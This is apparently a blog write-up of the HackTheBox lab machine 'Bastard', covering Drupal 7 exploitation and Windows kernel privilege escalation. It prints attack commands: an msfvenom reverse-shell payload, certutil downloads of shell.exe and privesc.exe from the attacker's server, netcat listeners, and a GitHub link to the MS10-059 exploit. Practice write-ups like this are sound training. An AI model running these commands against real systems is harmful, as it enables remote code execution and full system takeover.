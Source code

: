 ```yaml
---
title: "Bastard HackTheBox" 
date: 2025-07-03 06:00:00 0000+
tags: [WriteUp, Bastard, HTB, Enumeration, CMS, CVE, Drupal, Kernal Exploit, Privilege Escalation, Windows]
categories: [WriteUps, HackTheBox]
image:
  path: /assets/images/Bastard_HTB/preview_bastard.png
---
```

# Bastard HTB Writeup

Bastard is a medium level windows machine on HTB which focuses mainly on exploitation of CMS's (content management systems) in this case drupal version 7.54 is vulnerable, which helps us gain a initial shell which is our first foothold. Revealing kernel version gives away another CVE which helps in privesc to system.

![image.png](/assets/images/Bastard_HTB/image.png)

## Initial Enumeration

As always we are gonna start off with the rustnmap to find open ports and services running on the box.

```bash
rustmap.py -ip 10.129.149.217
```

![image.png](/assets/images/Bastard_HTB/image%201.png)

Nmap results identified the Drupal version is 7.

## Exploitation

Visiting the webpage at port 80.

![image.png](/assets/images/Bastard_HTB/image%202.png)

I tried doing some common password attacks on the login page but they were unsuccessful.

Finally gave up and decided to search exploits with drupal 7.

Found!! a really interesting php script.

![image.png](/assets/images/Bastard_HTB/image%203.png)

I mirrored the script to my current directory.

```bash
searchsploit -m php/webapps/41564.php
```

Made some changes to the file and decided to execute my payload.

![image.png](/assets/images/Bastard_HTB/image%204.png)

In the data field I added a simple php cmd shell to execute commands on the webpage

To run this php exploit I install php-curl using

```bash
apt install php-curl
```

and then executed it.

![image.png](/assets/images/Bastard_HTB/image%205.png)

Visiting the URL for our exploit to work.

![image.png](/assets/images/Bastard_HTB/image%206.png)

We are **iusr** user on the box.

 

### Shell as iusr

Now I first created a reverse shell exe file using msfvenom.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f exe > shell.exe
```

![image.png](/assets/images/Bastard_HTB/image%207.png)

Then started a python server to serve this shell.exe file 

```bash
python3 -m http.server 9090
```

![image.png](/assets/images/Bastard_HTB/image%208.png)

Now using **Certutil** to download our shell.exe on the box.

```bash
certutil -urlcache -split -f "http://10.10.14.46:9090/shell.exe"
```

I executed the above command on the webserver using our uploaded payload.

![image.png](/assets/images/Bastard_HTB/image%209.png)

We can also see the hits on our python web server.

![image.png](/assets/images/Bastard_HTB/image%2010.png)

Now we listen on our attacker machine using **nc** and attempt to run shell.exe our reverse shell. 

Lets see we get a hitback on our attack machine.

```bash
nc -lnvp 9001 # on attacker machine
```

![image.png](/assets/images/Bastard_HTB/image%2011.png)

![image.png](/assets/images/Bastard_HTB/image%2012.png)

We get a successful hit back on our attacker machine.

Further enumeration reveals that we have read access to the user.txt file.

So grabbing the user.txt file in dimitris desktop.

![image.png](/assets/images/Bastard_HTB/image%2013.png)

## Privilege Escalation

Now for the privesc part I enumerated more and since this is an old machine I looked for the kernel version.

![image.png](/assets/images/Bastard_HTB/image%2014.png)

We can see that there are none hotfixes applied to it and it is running the windows server 2008 R2 datacenter.

I googled this and found this exploit on github

<https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled>

![image.png](/assets/images/Bastard_HTB/image%2015.png)

Using **Certutil** to upload it to the box, also started a python server to serve this binary.

```bash
certutil -urlcache -split -f "http://10.10.14.46:9090/privesc.exe"
```

![image.png](/assets/images/Bastard_HTB/image%2016.png)

![image.png](/assets/images/Bastard_HTB/image%2017.png)

Successfully downloaded the executable on the remote machine.

Now started a netcat reverse shell on port 9002 and executed our reverse shell.

```powershell
nc -lnvp 9002 # on attacker machine
.\privesc.exe 10.10.14.46 9002
```

![image.png](/assets/images/Bastard_HTB/image%2018.png)

We get a hit back and finally we are NT AUTHORITY\SYSTEM on the box.

Now grabbing the root.txt

![image.png](/assets/images/Bastard_HTB/image%2019.png)

![image.png](/assets/images/Bastard_HTB/image%2020.png)

Rooted!!

Thanks for reading 😄
